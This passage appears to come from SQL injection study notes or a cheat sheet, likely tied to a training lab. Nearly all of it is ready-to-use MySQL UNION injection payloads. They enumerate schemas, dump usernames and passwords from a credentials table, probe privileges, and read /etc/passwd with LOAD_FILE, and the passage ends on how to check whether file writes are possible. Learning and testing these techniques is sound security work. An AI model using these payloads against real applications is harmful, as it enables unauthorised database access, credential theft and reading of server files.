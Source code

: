 ```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

```sql
cn' UNION select 1,username,password,4 from dev.credentials-- 
```

### Reading Files
#### Privileges
##### Get User
```sql
cn' UNION SELECT 1, user(),3,4 -- -
```

##### Super privileges?
```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

#### LOAD_FILE

```sql
SELECT LOAD_FILE('/etc/passwd')

cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"),3,4-- -
```

### Writing Files
To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

#### secure_file_priv
The [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) variable is used to determine where to read/write files from.

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```
```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```
```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
